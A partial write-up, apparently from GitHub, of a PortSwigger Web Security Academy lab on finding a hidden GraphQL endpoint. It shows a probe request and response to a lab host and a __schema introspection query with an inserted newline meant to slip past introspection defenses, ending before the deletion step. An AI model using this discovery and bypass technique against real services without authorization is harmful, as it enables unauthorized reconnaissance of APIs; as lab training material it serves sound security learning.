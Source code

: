 # Lab: Finding a hidden GraphQL endpoint

### Objective
```
The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

To solve the lab, find the hidden endpoint and delete `carlos`.
```

1. Because the end point would not be discover-able by conventional means, (cruising the app),
I decided to run an active scan to see if that could discover an api endpoint it up, and it did.
**Request**
```HTTP
GET /api?query=query%7b__typename%7d HTTP/2
Host: 0a7500a5048f1d4881dc76a500e100e4.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: session=GK55sNu9PbFaURJWf1TqFc6bf1znx72m
```

**Response**
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=CURbdf77YeLW6ItMRlsFyYaPT20EQJeU; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

{
  "data": {
    "__typename": "query"
  }
}
```

2. **Sent it to Repeater**
and and copy-pasted the request query to the decoder:
```HTTP
GET /api?query=query%7b__schema%0a+%7bqueryType%7bname%7d%7d%7d
```

the decoded query:
```HTTP
/api?query=query{__schema {queryType{name}}}
```
